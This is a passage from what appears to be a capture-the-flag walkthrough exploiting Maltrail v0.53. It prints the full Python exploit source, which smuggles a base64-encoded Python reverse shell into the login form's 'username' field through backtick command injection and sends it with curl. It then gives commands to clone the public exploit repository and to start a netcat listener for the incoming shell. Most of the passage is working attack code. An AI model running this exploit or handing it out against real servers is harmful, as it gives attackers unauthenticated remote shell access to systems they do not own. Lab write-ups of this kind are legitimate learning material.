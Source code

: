 ```Python
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

Let's quickly get it:

```
git clone https://github.com/spookier/Maltrail-v0.53-Exploit
```

```
cd Maltrail-v0.53-Exploit
```

### Netcat

Time to run it but first of all, we have to set up **Netcat** listener:

```
nc -lvnp {any port you want}
```

![Netcat](./Screenshots/saunetcat.png)
